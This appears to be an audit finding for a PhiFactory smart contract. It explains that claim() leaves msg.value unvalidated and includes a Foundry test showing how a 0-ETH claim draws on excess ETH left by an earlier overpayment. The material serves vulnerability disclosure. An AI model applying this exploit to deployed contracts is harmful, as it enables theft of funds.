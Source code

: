 Although the `merkleClaim` and `signatureClaim` functions can process refunds, the `claim` function calls of these two functions `externally` (defined as `external` instead of `public`), results in the `msg.value` being overridden by the `mintFee`. As a result, the original `msg.value` sent to `claim()` remains unvalidated and become vulnerable to exploits.

### POC

Apply patch & run `forge test -vvv --mt test_claim_exploit`:

```patch
diff --git a/test/PhiFactory.t.sol b/test/PhiFactory.t.sol
index f999052..3b6853d 100644
--- a/test/PhiFactory.t.sol
+++ b/test/PhiFactory.t.sol
@@ -300,4 +300,43 @@ contract TestPhiFactory is Settings {
         assertEq(newRoyaltyReceiver, checkRoyaltyConfig.royaltyRecipient, "royalty receiver should be updated");
         assertEq(500, checkRoyaltyConfig.royaltyBPS, "royalty bps should be updated");
     }
+
+    function test_claim_exploit() public {
+        _createArt(ART_ID_URL_STRING); // artID 1
+        _createArt(ART_ID_URL_STRING); // artID 2
+
+        bytes[2] memory dataCompressed;
+
+        for (uint i = 0; i < dataCompressed.length; i++) {
+            bytes32 advanced_data = bytes32("1");
+            uint256 artId = i + 1;
+            bytes memory signData =
+                abi.encode(expiresIn, participant, referrer, verifier, artId, block.chainid, advanced_data);
+            bytes32 msgHash = keccak256(signData);
+            bytes32 digest = ECDSA.toEthSignedMessageHash(msgHash);
+            (uint8 v, bytes32 r, bytes32 s) = vm.sign(claimSignerPrivateKey, digest);
+            if (v != 27) s = s | bytes32(uint256(1) << 255);
+            bytes memory signature = abi.encodePacked(r, s);
+            bytes memory data =
+                abi.encode(artId, participant, referrer, verifier, expiresIn, uint256(1), advanced_data, IMAGE_URL, signature);
+            dataCompressed[i] = LibZip.cdCompress(data);
+        }
+
+        vm.startPrank(participant, participant);
+
+        // @audit claim artId 1 with extra 0.1 ETH to simulate the mintFee has been lowered right before
+        uint256 totalMintFee = phiFactory.getArtMintFee(1, 1);
+        phiFactory.claim{ value: totalMintFee + 0.1 ether }(dataCompressed[0]);
+        uint256 phiFactoryBalance1 = address(phiFactory).balance;
+        assertEq(phiFactoryBalance1, 0.1 ether, "balance is empty");
+        console2.log("phiFactory has extra %d after claim artId 1", phiFactoryBalance1);
+
+        // @audit claim artId 2 to exploit phiFactory balance since it has extra 0.1 ether
+        totalMintFee = phiFactory.getArtMintFee(2, 1);
+        phiFactory.claim{ value: 0 }(dataCompressed[1]); // 0 ETH was used
+        uint256 phiFactoryBalance2 = address(phiFactory).balance;
+        assertEq(phiFactoryBalance2, phiFactoryBalance1 - totalMintFee, "phiFactory balance not exploited");
+        console2.log("phiFactory after claim artId 2", phiFactoryBalance2);
+        console2.log("phiFactory loss %d after claim artId 2", phiFactoryBalance1 - phiFactoryBalance2);
+    }
 }
```